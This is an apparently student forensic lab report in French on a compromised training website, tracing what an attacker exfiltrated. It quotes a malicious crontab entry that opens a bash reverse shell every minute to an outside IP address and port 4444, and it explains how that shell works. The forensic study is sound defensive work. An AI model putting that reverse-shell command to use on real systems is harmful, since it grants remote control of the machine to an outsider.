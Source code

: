 # Rapport d'analyse

### Préparation

Pour intervenir dans ce cas, au préalable il faudra valider certains points de sécurité :

- [x] La station blanche est prête à accueillir l'élément à analyser.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout réseau.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout périphérique externe.

- [x] L'analyse de la machine s'effectue sur un clone virtuel de l'environnement de production.



### Introduction

Le site web Bosch-cyber a été attaqué. l'attaquant aurait récupéré des outils secrets très dangereux. Heureusement l'administration a mis le site eb maintenance. 

###### La mission : déterminer ce qui a été exfiltré par l'attaquant.

### Méthodologie

Dans cette partie seront données les manières d'analyser l'environnement qui hébèrge le site web Bosch-cyber. 


### Résultats

dans cette commande :

![Alt text](https://github.com/LuKieru/FORENSIC_TP_BOURGEOIS_LUCAS/blob/main/TP03/img/cat_hosts_passwd.png "cat_hosts_passwd.png")

on voit qu'il y a un fichier .zip qui a été protégé par un mot de passe "bosch_cyber_tools.zip"
ce mot de passe peut etre lu depuis "/tmp/mypassword"


>unzip bosch_cyber_tools.zip 

demande un ==mot de passe==

> cat /etc/hosts

172.18.0.2

>cat /var/www/html/index.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Maintenance Bosch-Cyber</title>
</head>
<body>
    <p>Sorry for the inconvenience. We'e performing some issues at the moment. We'll be back up shortly!</p>
</body>
</html>
```


>cat .cache/
cat .bash_history 
cat .bash_logout 
cat .bashrc 
cat .profile 
cat .viminfo 
>cat .cache/

rien

>cat crontab

*/1 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'

tache planifiée :
Il s'agit d'une tâche planifiée appelée Cron job, qui est exécutée sur un système Unix.

Le Cron job est configuré pour s'exécuter toutes les minutes (*/1 * * * *). Il exécute la commande /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'.

Cette commande ouvre un shell Bash et redirige son entrée/sortie vers un socket réseau. Plus précisément, elle envoie toute la sortie standard au socket réseau à l'adresse IP 138.66.89.12 et au numéro de port 4444, et elle envoie toute l'entrée standard depuis le socket réseau vers le shell Bash.

Ceci semble être une tentative de créer un shell inversé vers une machine distante à l'adresse IP et au numéro de port spécifiés. Il est important de noter que de telles actions peuvent être illégales et potentiellement nocives. Il est recommandé de enquêter et de remédier à de telles activités sur un système.

>cat access.log | grep "138.66.89.12"

résultat en image
